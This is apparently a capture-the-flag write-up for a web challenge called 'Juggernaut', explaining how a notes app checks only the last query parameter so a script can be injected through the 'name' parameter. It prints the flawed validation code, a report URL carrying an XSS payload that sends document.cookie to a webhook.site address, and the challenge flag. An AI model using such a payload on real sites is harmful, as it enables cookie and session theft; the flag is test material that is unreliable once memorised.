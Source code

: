 # Juggernaut

Solved by: @vicevirus

## Question:
I gave task to Juggernaut to make a notes app for me. He made it but I think he is made some blunder. Can you find it?

## Solution:
This checks if `note_id` is valid only at the back/last part. To bypass, simply put the XSS payload in the name parameter at the front.
```
note_id = parsed_url.query.split('=')[-1]
if len(note_id) == 32 and all(c in '0123456789abcdef' for c in note_id):
```

report this link

```
http://35.224.222.30:4007/view?name=%3C/script%3E%3Cscript%3Elocation=%27https://webhook.site/bfb7ca18-de82-40ce-8bb2-930d503363d4/?c=%27%2bdocument.cookie%3C/script%3E.cookie%3C/script%3E&note=c33b70ea7fa441725a8c015e4296e4be
```

**Flag:** `flag{N3x7_t1m3_1_w0n7_g1v3_t45k_70_Ju993rn4u7}`

